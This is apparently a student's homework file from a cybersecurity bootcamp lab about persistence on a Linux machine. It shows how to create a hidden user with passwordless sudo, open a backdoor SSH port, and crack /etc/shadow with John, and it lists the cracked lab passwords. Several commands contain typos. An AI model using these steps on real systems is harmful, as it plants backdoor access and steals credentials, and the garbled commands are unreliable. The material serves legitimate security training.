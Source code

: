## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below
the prompt.

Save and submit the completed file for your homework submission.

\*\*Step 1: Shadow People\*\*

1\. Create a secret user named \`sysd\`. Make sure this user doesn't
have a home folder created:

- \`**useradd -M sysd\`**

2\. Give your secret user a password:

- **\`passwrd syd\`**

3\. Give your secret user a system UID \< 1000:

- \`**usermod -u 600 sysd\`**

4\. Give your secret user the same GID:

- \`**groupmod -g 600 sysd\`**

5\. Give your secret user full \`sudo\` access without the need for a
password:

- ** ran visudo and added the following line**

sysd ALL=(ALL) NOPASSWD:ALL

6\. Test that \`sudo\` access works without your password:

**su sysd**

then opened etc/password I could see all the hashes.

\`\`\`

\*\*Step 2: Smooth Sailing\*\*

1\. Edit the \`sshd_config\` file:

The way I did this was the following

su sysd

sudo nano .etc.ssh.sshd_config

removed the # from port 20 and added a line that says port 2222
underneith.

\*\*Step 3: Testing Your Configuration Update\*\*

1.** Restart the SSH service:**

- ran both

sudo service sshd restart

sudo service ssh restart

I relize I only needed to run the ssh restart.

2\. Exit the \`root\` account:

- **entered in 'exit'**

3\. SSH to the target machine using your \`sysd\` account and port
\`2222\`:

** - \`ssh sysd@192.168.6.105 -p 2222**

4\. Use \`sudo\` to switch to the root user:

- **\`sudo su root**

\*\*Step 4: Crack All the Passwords\*\*

1\. SSH back to the system using your \`sysd\` account and port
\`2222\`:

- **\`\`ssh sysd@192.168.6.105 -p 2222\`**

2\. Escalate your privileges to the \`root\` user. Use John to crack the
entire \`/etc/shadow\` file:

- \`sudo su root

cd /etc/

john sadow\`

results

sysadmin:passw0rd:18387:0:99999:7:::

student:Goodluck!:18387:0:99999:7:::

mitnik:trustno1:18387:0:99999:7:::

babbage:freedom:18387:0:99999:7:::

lovelace:dragon:18387:0:99999:7:::

stallman:compute r:18387:0:99999:7:::

turing:laker s:18387:0:99999:7:::

I made a short video instead of screen shots. it can be viewed here. 
"https://www.youtube.com/embed/XsYnBXvFY6c"
---

Â© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights
Reserved.
